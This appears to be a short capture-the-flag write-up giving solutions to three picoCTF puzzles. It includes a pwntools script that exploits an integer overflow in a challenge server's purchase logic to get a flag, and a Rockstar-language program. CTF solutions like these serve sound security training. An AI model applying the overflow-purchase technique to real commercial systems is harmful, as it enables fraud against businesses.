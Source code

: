 ### mus1c

`https://codewithrockstar.com/online`

### flag_shop

```python
#!/usr/bin/python3         
from pwn import *          
              
r = remote('jupiter.challenges.picoctf.org', 4906)
              
r.sendlineafter('2. Buy Flags', '2')      
r.sendlineafter('1. Defintely not the flag Flag', '1')
r.sendlineafter('enter desired quantity', str( ((2**31 + 1100) // 900) + 1 ) ) # overflow
r.sendlineafter('2. Buy Flags', '2')      
r.sendlineafter('2. 1337 Flag', '2')      
r.sendlineafter('Enter 1 to buy one', '1')
r.recvuntil("YOUR FLAG IS: ")
flag = r.recvline()[:-1]   
print(flag.decode('utf-8'))
r.close()  
```

### 1_wanna_b3_a_r0ck5tar

```
(Simple variables, true)
Rocknroll is right

(Simple variables, false)
Silence is wrong                

(Common variables, a guitar, 10)
A guitar is a six-string        

Tommy's been down               

(Proper variables, 170)
Music is a billboard-burning razzmatazz!

(input music)
Listen to the music             

(input == 10)
If the music is a guitar                  
Say "Keep on rocking!"                

(input rhythm)
Listen to the rhythm

(rhythm - Music == 0)
If the rhythm without Music is nothing
(Tommy == 66)
Tommy is rockin guitar
Shout Tommy!                    

Music is amazing sensation 
Jamming is awesome presence
(Music == 79)
Scream Music!
(Jamming == 78)
Scream Jamming!                 
Tommy is playing rock           
```